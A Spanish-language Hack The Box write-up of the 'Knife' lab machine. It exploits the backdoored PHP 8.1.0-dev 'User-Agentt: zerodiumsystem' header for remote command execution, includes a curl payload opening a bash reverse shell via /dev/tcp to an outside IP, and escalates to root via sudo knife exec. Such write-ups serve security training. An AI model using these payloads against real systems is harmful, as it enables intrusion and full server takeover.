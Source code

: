 ```yaml
---
title: Knife - HTB Writeup
date: 2023-09-08 03:20:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Linux, Writeup]
image:
  path: /assets/img/post/knife/jimmy-chang-Q67YYjgXBfY-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Knife** es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una **vulnerabilidad** de la versión ```8.1.8-dev``` de ```PHP``` mediante un ```RCE```

## **Reconocimiento**

Realizaremos un escaneo con ```nmap``` para descubrir puertos abiertos en la máquina víctima

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
```

![img](/assets/img/post/knife/d39b61c6-b6af-410d-ac30-6014585c55d5.png)

Vemos que están abiertos el puerto ```22``` y el ```80```

Vamos a realizar un escaneo de **servicios** y **versiones** sobre estos puertos:

```bash
nmap -sCV -p22,80 10.10.10.242 -oN versions
```

![img](/assets/img/post/knife/ba998012-681a-4d58-9014-5f242f7f0ec6.png)

Podemos ver que por el puerto ```22``` corre un servicio ```SSH``` y por el ```80``` un ```HTTP```

Con ```curl``` haremos una petición en la web a ver que nos devuelve:

```bash
curl -i 10.10.10.242
```

![img](/assets/img/post/knife/5ede2a37-310b-4750-856d-78e1fb163cbe.png)

## **Explotación**

Como podemos ver en la cabecera del ```output``` que nos devuelve el ```curl```, la web es lanzada por un servicio ```PHP/8.1.0-dev```

Si buscamos información sobre esta **versión** de ```PHP```, podemos ver que esta es vulnerable a un ```RCE``` *(Remote Command Execution)* utilizando la cabecera:

```bash
User-Agentt: zerodiumsystem(‘command’);
```

Podemos realizar una prueba para ver si el ```RCE``` da resultados:

> Inyectamos código en la máquina victima mediante el User-Agent

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"id\"');"

uid=1000(james) gid=1000(james) groups=1000(james)
```

Como podemos ver el ```RCE``` funciona, así que vamos a conseguir una ```reverse shell```:

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.8/443 0>&1\"');"
```

En otra consola nos pondremos en escucha con ```nc``` por el puerto que hayamos indicado:

```bash
nc -lvnp 443
```

Y ya tendriamos acceso a la máquina víctima:

![img](/assets/img/post/knife/1e64cb21-0ac4-46e6-8a25-3190cb332811.png)

## **Escalada de Privilegios**

Para realizar la escalada ejecutaremos

```bash
sudo -l
```

para ver los ```binarios``` que podemos ejecutar como ```root```, los cuales en este caso son los siguientes:

![img](/assets/img/post/knife/f1d1188d-4b91-416c-a6b0-33458b263970.png)

Si ejecutamos ```/usr/bin/knife``` podemos ver que hace:

```bash
james@knife:/$ /usr/bin/knife -h       

knife exec [SCRIPT] (options)
```

Usaremos esto para conseguir una consola como root, para ello ejecutaremos el siguiente comando:

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'

uid=0(root) gid=0(root) groups=0(root)
```

Y ya tendremos acceso como root a la máquina

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
